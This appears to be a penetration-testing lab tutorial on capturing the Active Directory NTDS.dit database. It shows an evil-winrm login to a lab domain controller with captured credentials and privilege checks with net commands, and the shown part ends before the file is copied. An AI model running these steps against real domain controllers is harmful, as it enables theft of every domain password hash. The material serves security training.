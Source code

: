 ***

## <mark style="color:red;">Capturing NTDS.dit</mark>

* `NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources.&#x20;
* Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).&#x20;
* The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html).
* This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain similar to the technique we covered in this module's `Attacking SAM` section. As we practice this technique, consider the importance of protecting AD and brainstorm a few ways to stop this attack from happening.

#### <mark style="color:green;">**Connecting to a DC with Evil-WinRM**</mark>

We can connect to a target DC using the credentials we captured.

```shell-session
mrroboteLiot@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Evil-WinRM connects to a target using the Windows Remote Management service combined with the PowerShell Remoting Protocol to establish a PowerShell session with the target.

#### <mark style="color:green;">**Checking Local Group Membership**</mark>

Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:

```shell-session
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
```

We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

#### <mark style="color:green;">**Checking User Account Privileges including Domain**</mark>

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes
```